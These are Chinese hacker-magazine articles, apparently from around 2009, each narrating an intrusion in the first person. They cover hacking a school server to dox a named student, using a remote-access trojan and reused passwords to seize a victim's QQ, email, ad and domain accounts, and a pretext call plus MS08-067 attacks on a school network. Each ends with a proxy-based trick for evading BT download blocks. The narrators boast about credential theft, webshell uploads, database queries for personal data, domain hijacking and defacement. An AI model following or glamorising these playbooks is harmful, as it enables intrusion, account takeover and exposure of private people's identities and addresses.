

在 NEWS 目录找到了数据库，数据库名字用了特殊符号，使用 url 解码器转一下。把转码后的 `%23jhdsdsbcucj%23%40%23%24%21%23%40%23%40dssa%2Emdb` 直接复制到 IE 进行访问，成功下载得到数据库，如图6、图7。

使用多功能数据库浏览工具打开，得到如下信息：`Admin_name 431229e49470a4a7e,admin_pwd 77c3afefb5e1b9b0`，均是 MD5 加密的。在 `www.xmd5.org` 破解得到密码，成功登录后台，在功能栏直接上传 ASP 木马成功。

使用 ASP 木马发现服务器权限设置得非常死，所有盘都不允许浏览，只可以在本站目录传文件。通过 webshell 发现支持 `wscript.shell`，于是上传 `cmd.exe`，但不能执行命令，提示没有权限，晕哈！上传 aspx、php 木马发现都不支持，本地提权的程序也没有权限执行。

没办法了，把 shell 丢给朋友让他看看，一个给他诉说：`e:\web` 可以跳转，是主站的 web，没修改权限，没有 mssql 账户什么的，Access 数据库。既然可以跳转，我又测试了一下 `e:\zb` 目录，也跳了过来，看来使用的是 IIS 账户，如图8。

| 名称 | 大小 | 类型 | 修改时间 | 操作 |
|---|---:|---|---|---|
| admin | 65596 | 文件夹 | 2008-10-27 11:42:56 | 删除 |
| image | 8801922 | 文件夹 | 2009-3-3 17:19:58 | 删除 |
| img | 1538081 | 文件夹 | 2008-10-27 11:42:32 | 删除 |
| news | 443389 | 文件夹 | 2009-3-4 16:05:52 | 删除 |
| upFile | 6339 | 文件夹 | 2008-10-27 11:42:23 | 删除 |
| activities.asp | 5330 |  | 2008-10-25 16:51:34 | 删除 |
| actwind.asp | 7810 |  | 2008-10-25 15:42:46 | 删除 |
| bottom.htm | 1833 |  | 2008-10-25 15:03:10 | 删除 |



这个是招生的地方，在 data 里发现个数据库有 2MB，里面有 N 多人的数据。问了MM要找的人叫什么名字，可是搜了半天，发现并没有MM说的这个人，我汗哦！这只是个录取的学生的信息，于是我又问她们学校成绩是在哪里查。她告诉我在 `jw.xxx.com` 里面查，也是这一个服务器上的。于是往 webshell 里输入 `e:\jw` 成功跳转了过来，在教务处页面查询成绩那里发现了查成绩的文件 `SearchExamResult.asp`，如图9。

如果这里可以查询，这么多人的数据肯定不会用 Access 数据库了吧？webshell 里编辑这个文件，查看到了数据库连接文件 common/dbconn.asp，如图10。





| 姓名特征 | 学号特征 |
|---|---|
| 表格内容较模糊，无法完整辨识 | 表格内容较模糊，无法完整辨识 |

成功找到 mssql 数据库 sa 密码：ys@821******。呵呵，小小高兴一下，接下来的事情就好做了。不用登录服务器直接查询数据库，使用海洋连接数据库代码：

```sql
Provider=SQLOLEDB.1;Server=localhost;User ID=sa;Password=ys@821******;Database=schoolmanage;
```

密码就写 ys@821******。数据库名称填上 schoolmanage，这样就成功连接上了数据库。因为以前进入过这个数据库，大概知道学生的表在哪个位置，StudentArchive 是学生的表，查询了一下，发现还只有一个叫这个名字的人，应该就是他了。

输入如下 SQL 语句：

```sql
Select * from [StudentArchive] where studentname = '张程'
```

终于找到了他的家庭住址、电话、邮编还有身份证、学生证……就到这里吧，顺便勒索MM一顿饭吧，哈哈，如图11。

> 编辑点评：每个人人侵总会有各种各样的理由，这次作者的理由也很常见。看完文章，你会发现文章里并没有提到如何去搜索一些目标的信息，而是通过目标所在站点的人侵拿到目标的信息。这种思路在社工、渗透等过程中也是很常用的。另外，作者说的“人肉搜索”，我劝大家还是去查一下 MOP 论坛，什么叫真正的人肉搜索，去那里看一下你就会明白的。

## 为了一个QQ号的一系列社工

图　小幸一苇 [ESST]&[二进制]

### 一、起因

不知不觉玩黑有一年了，总想整个好点的QQ号，于是买了个8位的QQ用，后来发现6位更好……如今卖QQ的都是骗子，哎，还是自己社工一个吧。

### 二、6位QQ

最近用刚买的 UFO SHELL 抓了不少肉鸡。于是一个一个看（Ufo shell 是国外远程控制软件 Poison Ivy，恶灵战队自己制作会过版本），每次看肉鸡都是找肉鸡的 QQ 安装文件夹，看看里面的 QQ 文件夹有没有好点的QQ号。好家伙，一个6位Q，一个5位Q，4个7位Q，怀疑到底是不是他的QQ呢？还是他朋友来过他家上的QQ呢？于是我打开了 UFO SHELL 监控他桌面，看他挂了几个QQ。郁闷，他就挂了一个，此时他在刷论坛的人气，批量注册然后自动发帖子顶帖子……估计是他自己的论坛刚成立没人气，在模拟人气。看来此人很不简单……他干什么我没兴趣，我只想知道他挂的这个Q到底是几位的。于是我就很邪恶地控制他鼠标双击了那个小企鹅……哇，6位的。

### 三、邪恶的开始

我估计他也发现了自己QQ突然弹出来了（是个人都知道），不管了，我的 UFO SHELL 免杀的，如果他杀毒的话我就传过去一个被杀的马，他杀掉就会以为没事了，此时我就看看他电脑都有什么东西（图就不发了）。

盘符里东西不少啊，黑客工具、美国大片应有尽有，但没有什么存放密码的文本文档，此时思路有点断了。我就看看 UFO SHELL 还有啥能值得利用的吧。看到了有个读取缓存口令的功能，于是我就点了下，此时发现他登录过好多网站，读取出来的用户名就是他的网名 yjXXX，有的是 yjfosXXX，密码基本都是 1a2s3d4f5g。

这下好了，密码有了，我去尝试登录下他上过的站，发现真是没啥值得利用的，大半登录不上。我又想去登录他的邮箱，邮箱地址是什么呢？停下分析下，他给自己的站做采集，估计是玩网赚点广告的，我就看看谷歌广告他有没注册。

这个人经常登录国外站，估计邮箱地址是谷歌的（猜的），那我就用 yjfosXXX@gmail.com，密码 1a2s3d4f5g 登录（现在被他改密码了！），竟然进去了。进去一看，发现邮件不下1000封……一个一个看吧，看到了万网发来的邮件，提示他给虚拟主机续费，那我也登录万网测试下吧。

打开万网，找到了虚拟主机管理的地址，登录不进去。算了，继续看邮件，发现此人经常给黑鹰投稿发教程，还有好多注册的信息。于是就往下找，发现这个人还有个邮箱，他曾经用 yjfosXXX@gmail.com 往 yjfosXXX@163.com 里发过 Email。看来是用来存储信息用的，那这个163的邮箱也是他的了。二话不说去看看密码是不是还是 1a2s3d4f5g，如图1。



图1中的那几个新邮件是今天他发现QQ被盗时找回QQ用的，既然登录进来了，咱就看到底有什么东西在里面吧，如图2。

看到了他有过备案，站长都知道备案里的资料是很详细的，也是很真的。于是我又跑去登录他的备案，用户名应该是 yjXXX，密码还是那个，登录下看看，如图3。



还真够猛的，真实名字、家庭住址都出来了，还有身份证号。估计名字是真的，用户名前俩字母就是那个意思。好吧，把这些信息保存，继续寻找有用的。对了，刚才的那个谷歌广告还没登录呢，地址应该是 https://www.google.com/adsense/login/zh_CN/，用户名是他的 gmail 邮箱，密码 1a2s3d4f5g。我汗了，密码居然进不去，看来说这个人对钱这些东西的密码还是很小心的。

### 四、突破密码

看来还要回邮箱继续“淘宝”，邮件确实多，但是大多和密码没关系。此时无意间刷新了邮箱，发现有新邮件了，提示他的域名要续费。管他什么站呢，直接点开，用原来的密码登录，进去了，居然是他 Blog 的 IDC，此时有劫持他域名的冲动，呵呵。我先看了下他的 blog 地址，是 http://www.yjxxx.com.cn/，简单看了下日志，还真是学黑的，转了好多入侵文章，有个文章更有意思，他说看统计连国外的黑客来搞过他的 Blog，但是没黑掉，意思就是说他的 Blog 很安全，呵呵。OK，一会搞搞看，此时已经凌晨1点多了，肉鸡里没有他了，估计去睡觉了。



既然去睡觉了就好办啦！把他BLOG挂个黑页，直接修改解析，随便指向一个有黑页的空间，刷新下，呵呵，搞定（他已经把域名打电话找回来了，图就不发了）。突然想起缓存密码还有个垃圾站，密码是 aaaaa，没准这个也是他经常用的密码，不过我觉得不可能，难道是手机号当密码？对！我就喜欢用手机号当密码，于是去登录他谷歌广告，还是密码错误。不行，我就也要蒙进去，手机+a，a+手机……（省略蒙的过程）最终用手机号+5个a进去了，如图4。

### 五、QQ密码来了



谷歌广告现在我们能进去了，估计对后来的渗透还有点帮助，看了下表，凌晨2点多了。既然他睡觉了，我就登录他QQ看看。先按照国际惯例，用知道的第一个密码登录，然后 one by one，谁知道能够进入QQ和域名管理界面，如图5、图6。

看来人品还真是不错，突然想到上QQ忘用代理了，算了，这个QQ今天搞不下，我以后就不监视他了，胜败就在今天晚上。直接点“修改密码”，发现是2代保护，那我先回答问题看看。问题是：我的配偶姓名是？这谁知道啊！然后换下个问题：我的出生地？我填写上海，不对。上海市？不对。把备案信息里的地址+域名注册的信息里面的地址各种排列组合都试遍了也不对。完了，劫持人家域名把人品整出问题了。那再换个问题吧，最后的希望了。问题是：我高中的老师叫什么？我汗，还不如第一个呢！休息下整理下思路吧。

边喝可乐边想，还有什么可利用的呢？对了！gmail里面还有提什么数据库到期之类的信息，这是个突破点。163里面还有什么九域的通行证，估计利用不了。看来能利用IDC得到点东西，顺便整点空间和域名过来（如此邪恶的想法……）。想着想着，QQ 突然有头像闪动了，一看是他的 QQ，估计是他朋友，那就从他朋友开始社工。下面我模拟下对话（很兴奋，忘抓图了）。

> 他朋友：嘿嘿，做什么呢？
>
> 我：郁闷呢！
>
> 他朋友：咋了？？
>
> 我：听说要高中聚会！
>
> 他朋友：那都啥啥啊。// 估计不是他高中同学
>
> 我：班主任的名字居然忘了！
>
> 他朋友：我也忘了，你在哪？

此后他就怀疑不是本人。我然后看了下他的 QQ 群，有个高级群叫什么“中专2班”，估计是高中的班级群。然后我在群里说话了……

> 我：都在忙什么呢？
>
> 一同学：没啊，你忙什么呢？
>
> 我：郁闷呢，咱班主任名字叫啥了？我忘了……
>
> 一同学：班主任？啥啊？
>
> 我：咱高中老师啊……
>
> 一同学：你是谁啊？
>
> 我：……杨剑
>
> 一同学：不认识，你是不是进错群了？
>
> 我：你进错了吧？这个是什么群？
>
> 一同学：公安群啊……

郁闷，干坏事碰到枪口上了，退群走人。对了，记得刚才在域名管理那注册人叫黄小丽，这个是谁呢？他媳妇？OK，测试下，如图7，啊啊，成功改掉了 QQ 密码。

### 六、域名啥的都来了

在 Gmail 里发现他有用过支付宝和阿里妈妈，然后去社工。阿里妈妈应该是雅虎邮箱，测试看能进去不，如图8。

上面的密码找回，是他找回其它几个 QQ 的邮件，密码我改掉了，就这样用这两个“万能密码”进去了站长统计、阿里妈妈、淘宝等。163 邮箱里还有一个域名提示续费的邮件，那不用想了，全劫持了。突然想到他还有空间呢，对啊，虚拟主机估计也能搞到。找到个 IDC 的地址，http://www.idc9.net/，用户名还是那个，密码就是那俩“万能密码”，如图9。

把虚拟主机密码和 FTP 密码都删掉了，然后把服务停止就太猥琐了，小朋友不要这么坏哦，再发一个图出来，如图10。这个是那 60 来个域名的管理后台，整这么多，真的网赚啊！

### 七、你又被黑了

本来文章到这里就结束了，他做了系统，肉鸡里找不到了，发现他把域名恢复了，然后在 BLOG 写文章威胁我，我才发现他 BLOG 空间没社工呢。这时候他能恢复是因为恢复了，也把万网原来的 163 邮箱改换成了 **yjfoxxx@vip.qq.com**，密码应该是新的 QQ 密码。我想他能用的密码现在都不能用了，估计全换新的了，没准就是他媳妇常用的。**我就用他媳妇的 Q 昵称 Granaxxx 当他新 QQ 邮箱密码，不对！我又换了 Granaxxx123，也不对！把 G 换成小写的 granaxxx，OK！** 成功进入他的 QQ 邮箱。QQ 密码不改了，直接在万网点忘记密码，然后在邮箱把密码换了，把万网注册邮箱换了，密码改掉走人，如图11。

你就找不回去了。同样的方法，登录他那 60 个域名的 IDC，最后改掉 Gmail 的密码和安全邮箱。大家还记得这个邮箱吧，第 1 天由于安全问题我不知道，没改掉，现在改掉了，他也找不回去了。用这个方法把他所有能登录的安全邮箱全换成我的邮箱！

### 八、第三天

由于昨天改了他万网密码，把邮箱换成我的了，他就找到了我 QQ（QQ 邮箱），然后加了我后，说他 163 邮箱、60 个域名什么的都找回去了，说我什么也没得到。好吧，非让我第 3 次社工！我登录 163 邮箱和域名管理还真上不去了，看来由于 163 邮箱找回去了，其它邮箱的密码也通过找回功能改掉了。我突然想起昨天的 QQ 邮箱，如图12。

登录，OK，成功！现在理清下思路，他把所有东西的安全邮箱换成了 **yjfoxxx@vip.qq.com**，他貌似还不知道我有这个邮箱的密码。我就把域名管理和 Gmail、163 的邮箱全用忘记密码找回，都会发到这个 QQ 邮箱里，然后把密码换掉，登录进去改掉所有东西的安全邮箱，这样他就是再撞也找不回去了。于是就复制好 163 邮箱地址（一会儿找的时候打得快，以免他看到邮件改密码），如图13。

改掉了！密码问题我就改不了了，反正安全邮箱换成我的，你就找不回去了。

### 九、结束语

本来只是想记录一天的社工过程，但是那个人对我不断辱骂，只好继续社工三次，这下他可是真的被害惨了。这三次社工都主要靠灵感和我的 UFO SHELL 的“读残缓存口令”功能，这个功能让整个社工过程变得十分简单和轻松。除此之外，被社工的人很狂，也正是如此才激怒了我，被害得丢失了不少东西。我很坏吧，大家不要学我哦，我相信当你看到这篇文章的时候，我们能够成为朋友。

> 编辑点评：文章的整个过程是清楚的，但描写得不太清楚。我估计作者的语文水平应该不怎么样，我编辑的时候好多语句读不通顺，而且写作习惯也不太好。再看本文，行动有点过，以和为贵嘛，我劝大家也少这样做，点到为止。目前你不明白，年少轻狂，后悔之时就明白了。

## 精彩的社工

图.2.Y 佚名

**从本文你可以学到：**  
社会工程学的应用

社会工程，相信大家都对其略有所闻，其恐怖性就不多说了。最近笔者无聊，某日突发奇想，竟然拿下学校里面的服务器，因为貌似地球人都知道，内网安全性不怎么样。文章重点是思路，看点是社工过程。

社工最主要的一步是收集信息，目前为止我已经达到目的了。我们这里的学校有一个网站，网站是 asp.net 的，之前笔者已经尝试 hacking，但是技术问题，没办法拿下，所以只能放弃从主动进攻的想法。当时旁注时，发现那个貌似是独立的服务器。

从查询到的网站 IP 来看，那个 IP 是我这里地区的 IP，因此我想或许是本地的机房，或者甚至是在学校内部自架设的服务器。

从 Intellitamper 和 Jsky 分析的结果来看（我也去看过源码，但是很麻烦），可能后台不在网站目录内（因为显示目录只含有 image 文件夹和 news 文件夹，image 里面是一堆图片，news 里面是新闻的 html 页面），这样推理的话，那就很有可能是在学校里面物理管理的了……（后面的社工也证明我想对了）

回到学校之后，我在学校里面看了一下，猜想服务器就在很隐蔽的地方，于是我便用上了电话，目的在于收集学校机房的位置。

被实施对象：网络中心王 XX  
以下是通话内容：

> 我：你好，老王，我是 9 年级的方老师啊，现在我有点电脑上的问题想请教下你，你现在有时间吗？
>
> 王：你好，方老师，你说吧，我尽力。
>
> 我：是这样的，学校要在 9 年级里面进行一次文化巡礼，我负责的是收集相关资料，但是资料很多，我这里又没有带 U 盘，请问有什么办法把资料转移一下？
>
> 王：哦，那这样的话，可以在网上的一些网盘里放一下，或者刻录在光盘里面。
>
> 我：是这样的，老王，我们这些资料是活动相关的，是与学校有关的内部资料，鉴于安全，我想应该不能放在网上。那你说的那种刻录的方式是怎样的？麻烦不？
>
> 王：哦，不麻烦，可以直接用 Nero 刻录软件进行刻录，操作很简单。
>
> 我：那太好了，谢谢你了老王。
>
> 王：不谢啦。
>
> 我：但是……
>
> 王：嗯？
>
> 我：我没有那种光盘，没有用过，出去买的话，很可能会买错。老王你那里有吗？
>
> 王：嗯……我看看……有，很多，有 700 多 M 的，也有几 G 的光盘，我想 700 多 MB 应该够用了吧？
>
> 我：嗯，那真的太好了，谢谢了。你在班里？我叫一个学生过去拿吧。我不知道怎么和他说怎样去你那里……你方便说一下吗？
>
> 王：嗯……我在……【省略】

以上我扮演了一个电脑白痴，顺利得出了机房的位置，果然很隐蔽。机房里面很好很强大，那里有一个用大箱子装着的貌似是电脑的东西，那么神秘，我想就是服务器了吧……

知道了服务器是内网的，后来我通过 autorun 病毒（U 盘散播），成功拿下医务室里面的一台电脑，之后在家里面远程帮它开了一个 VPN，用 VPN 在内网漫游……通过 ms08-067 拿下了大多数电脑（里面很多没有打补丁），网站服务器有 SA 弱口令，很简单地开了 3389，连接了上去，最后远程修改网站主页，告诉我们可爱的老王，他们的内网很脆弱……好了，这次社工就到这里，过程很简单，重在思路。

> **编辑点评：**
>
> 这次社工没有去搜索邮箱、ID 之类的，而是直接拿起电话对目标实施欺骗，有多少个人想到这一点呢？成事艰难，败事容易，只有多少人敢这样做呢？社会工程学并不只是破解一下邮箱之类的哦，社工是智商和情商相结合的高智能社会活动。

## 怎样才能突破封锁隐身 BT 下载？

图 BT 狂人

从本文你可以学到：

突破封锁隐身 BT 下载

为了防止员工在上班时间 BT 下载，网管一般都会用软件屏蔽 BT 客户端的端口（默认为 6881～6889）和常用 BT 服务器。这样，你在单位局域网内就不能使用 P2P 工具进行 BT 下载了。不过，有的单位局域网内允许 BT 下载，但是速度却非常慢。如果你想突破这类限制，应该怎么办呢？如果你在 BT 下载时又不想暴露自己的 IP，希望能进行隐身 BT 下载，例如下载不雅电影过程中不想让别人发现，又该怎么办呢？

### 一、解决思路

要实现以上功能，你可以这样操作：

首先登录在线代理网站，通过在线代理将 BT 种子下载到本地；然后在 BT 工具中进行设定，设置 BT 下载时使用 HTTP 或 socks5 代理服务，最后用 BT 工具打开本地的 BT 种子去下载，这样即可突破封锁，隐身 BT 下载了。

### 二、通过在线代理下载 BT 种子

通过在线代理下载 BT 种子，可以隐藏你的 IP。在百度或 Google 中搜索“在线代理”，能找到很多在线代理网站，下面我们介绍在线代理使用方法。

启动 IE 等浏览器，打开一个在线代理站，在 URL 中输入 BT 种子所在网页地址，在 Server 中选择一个代理服务器，然后点击“加密浏览”按钮，如图1。

这样就会打开下载 BT 种子的网站，现在你可以将种子下载到本地了。不过以上方法下载的 BT 种子一般都以 .php 结尾，你应该把它改成相应的 BT 文件后缀（例如 BT 的 .torrent），操作步骤是：

到硬盘中打开任意一个文件夹，点击菜单“工具”下的“文件夹选项”，点“查看”，去掉“隐藏已知文件类型的扩展名”前面的勾，让所有文件名都显示后缀，然后右击 BT 种子文件，点“重命名”菜单修改其后缀。

### 三、设置 BT 代理

